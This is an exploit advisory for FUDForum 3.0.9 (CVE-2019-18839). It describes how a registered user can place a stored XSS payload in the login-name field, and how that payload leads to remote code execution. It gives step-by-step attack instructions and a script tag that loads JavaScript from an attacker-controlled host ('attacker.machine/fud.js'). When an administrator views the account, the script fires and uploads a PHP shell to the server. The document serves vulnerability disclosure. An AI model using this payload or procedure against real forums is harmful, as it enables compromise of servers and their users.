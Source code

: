 # FUDForum 3.0.9 - Stored XSS / Remote Code Execution [via username]

- Date                  : 11/8/19
- Exploit Author        : liquidsky (JMcPeters)
- Vulnerable Software   : FUDForum 3.0.9
- Vendor Homepage       : http://fudforum.org/forum/
- Version               : 3.0.9
- Software Link         : https://sourceforge.net/projects/fudforum/
- Tested On             : Windows / mysql / apache
- Author Site           : http://incidentsecurity.com | demo: https://youtu.be/fR8hVK1paks
- CVE                   : CVE-2019-18839

Greetz : wetw0rk, Fr13ndz, offsec

Description: FUDForum 3.0.9 is vulnerable to Stored XSS via the "nlogin" parameter. This may result in remote code execution. An attacker can use a user account to fully compromise the system using a POST request. When the admin visits the user information the payload will execute. This will allow for PHP files to be written to the web root, and for code to execute on the remote server.

Notes: 

1. Register an account and log in to the forum.

2. Go to the user control panel. -> Account Settings -> change login

3. Insert javascript payload <script/src="http://attacker.machine/fud.js"></script>

4. When the admin visits the user information the payload will fire, uploading a php shell on the remote system.
